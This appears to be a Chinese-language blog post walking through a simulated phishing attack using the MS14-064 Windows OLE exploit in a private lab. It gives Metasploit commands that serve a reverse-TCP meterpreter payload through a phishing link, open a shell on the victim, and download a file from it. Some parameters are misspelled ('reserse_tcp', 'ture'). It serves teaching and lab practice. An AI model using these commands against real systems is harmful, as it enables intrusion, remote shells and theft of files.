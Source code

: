```yaml
---
layout: post
title:  ms14-064漏洞利用(钓鱼模拟)
date: 2021-03-27 16:18:29 +0900
category: exploiting
---
```

<!-- TOC -->

- [0x0 确定攻击者IP、跳板机IP和受害者IP](#0x0-确定攻击者ip跳板机ip和受害者ip)
- [0x1 使用kail的metasploit生成钓鱼网站链接](#0x1-使用kail的metasploit生成钓鱼网站链接)
- [0x2 将钓鱼网站链接放置在跳板机（服务器中）](#0x2-将钓鱼网站链接放置在跳板机服务器中)
- [0x3 受害者访问钓鱼链接](#0x3-受害者访问钓鱼链接)
- [0x4 kail建立连接以及获取shell](#0x4-kail建立连接以及获取shell)
- [0x5 搜索可疑文件](#0x5-搜索可疑文件)
- [0x6 下载可疑文件](#0x6-下载可疑文件)

<!-- /TOC -->
## 0x0 确定攻击者IP、跳板机IP和受害者IP

```c
192.168.88.130 //kail
192.168.88.138 //跳板机
192.168.88.139 //受害者
```
## 0x1 使用kail的metasploit生成钓鱼网站链接

```c
msfconsole
use exploit/windows/browser/ms14_064_ole_code_execution
set payload windows/meterpreter/reserse_tcp
set lhost 192.168.88.130
set allowpowershellprompt ture //设置浏览器插件
exploit
```
![](/images/20210327-1.png)

## 0x2 将钓鱼网站链接放置在跳板机（服务器中）

![](/images/20210327-2.png)
![](/images/20210327-3.png)

## 0x3 受害者访问钓鱼链接

![](/images/20210327-4.png)

## 0x4 kail建立连接以及获取shell

```c
sessions //查看会话
sessions -i 1 //获取shell
```
![](/images/20210327-5.png)
![](/images/20210327-6.png)
![](/images/20210327-7.png)

## 0x5 搜索可疑文件
![](/images/20210327-8.png)
![](/images/20210327-9.png)

## 0x6 下载可疑文件

```c
download c:/lcy1.txt /root //meterpreter模式下
```
![](/images/20210327-10.png)
![](/images/20210327-11.png)